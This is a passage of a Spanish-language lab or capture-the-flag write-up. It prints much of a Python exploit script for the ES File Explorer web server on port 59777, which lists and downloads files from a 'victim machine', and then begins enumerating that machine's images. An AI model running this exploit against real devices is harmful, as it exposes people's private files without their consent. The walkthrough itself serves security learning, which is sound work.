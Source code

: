 ```python
    data = json.dumps({"command":cmd})
    response = requests.post(url, headers=header, data=data)
    return ast.literal_eval(response.text)

def parse(text, keys):
    for dic in text:
        for key in keys:
            print(f"{key} : {dic[key]}")
        print('')

def do_listing(cmd):
    response = httpPost(cmd)
    if len(response) == 0:
        keys = []
    else:
        keys = list(response[0].keys())
    parse(response, keys)

if cmd in listCmds:
    do_listing(cmd)

elif cmd == cmds[9]:
    if len(sys.argv) != 4:
        print("[+] Include file name to download.")
        sys.exit(1)
    elif sys.argv[3][0] != '/':
        print("[-] You need to provide full path of the file.")
        sys.exit(1)
    else:
        path = sys.argv[3]
        print("[+] Downloading file...")
        response = requests.get(url + path)
        with open('out.dat','wb') as wf:
            wf.write(response.content)
        print("[+] Done. Saved as `out.dat`.")

elif cmd == cmds[10]:
    response = httpPost(cmd)
    keys = list(response.keys())
    for key in keys:
        print(f"{key} : {response[key]}")
```

Veremos que la vulnerabilidad explota un servidor web en el puerto 59777 que ES File Explorer crea automaticamente al iniciarse . En el código veremos que están listados todos los comandos disponibles:

<img src="https://i.imgur.com/ClHrhO4.png" width=700>

Comezaremos a enumerar archivos potenciales que pueda contener la máquina víctima. Trataremos de listar las imágenes que se encuentran en la máquina víctima:
